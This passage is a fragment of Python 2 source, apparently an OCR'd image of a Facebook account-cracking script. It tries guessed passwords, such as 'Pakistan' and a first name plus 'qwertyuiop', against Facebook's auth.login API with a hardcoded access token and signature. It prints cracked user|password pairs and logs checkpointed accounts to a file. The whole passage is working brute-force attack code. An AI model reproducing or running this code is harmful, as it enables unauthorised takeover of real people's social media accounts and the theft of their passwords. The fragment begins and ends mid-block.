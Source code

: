 								else:

									pass4 = 'Pakistan'

									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

									q = json.load(data)

									if 'access_token' in q:

										print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass4

										oks.append(user+pass4)

									else:

										if 'www.facebook.com' in q["error_msg"]:

											print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass4

											cek = open("out/checkpoint.txt", "a")

											cek.write(user+"|"+pass4+"\n")

											cek.close()

											cekpoint.append(user+pass4)

										else:

											pass5 = b['first_name'] + 'qwertyuiop'

											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

											q = json.load(data)

											if 'access_token' in q:

												print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass5

												oks.append(user+pass5)

											else:

												if 'www.facebook.com' in q["error_msg"]:

													print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass5

													cek = open("out/checkpoint.txt", "a")

													cek.write(user+"|"+pass5+"\n")

													cek.close()

													cekpoint.append(user+pass5)
